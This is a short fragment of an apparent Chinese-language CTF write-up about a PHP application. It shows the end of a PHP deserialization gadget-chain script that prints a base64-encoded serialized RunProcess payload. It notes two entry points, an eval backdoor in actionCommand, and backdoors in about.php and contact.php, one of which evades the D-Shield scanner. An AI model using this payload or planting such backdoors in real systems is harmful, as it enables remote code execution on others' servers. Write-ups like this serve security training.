 ```php
    function __construct()
    {
        $this->processes = [new ValidGenerator()];
    }
}
echo base64_encode(serialize(new RunProcess()));
```

入口点1

![image-20221216001256047](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212160012113.png)

入口点2

![image-20221216001557262](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212160015328.png)

另外 actionCommand 里面有 eval 后门

另一处后门在 views/site/about.php 内, 这个是用 D 盾扫出来的

![image-20221216001849057](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212160018134.png)

还有一处后门在同级的 contact.php 内, 免杀 D 盾

![image-20221216001928967](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212160019053.png)

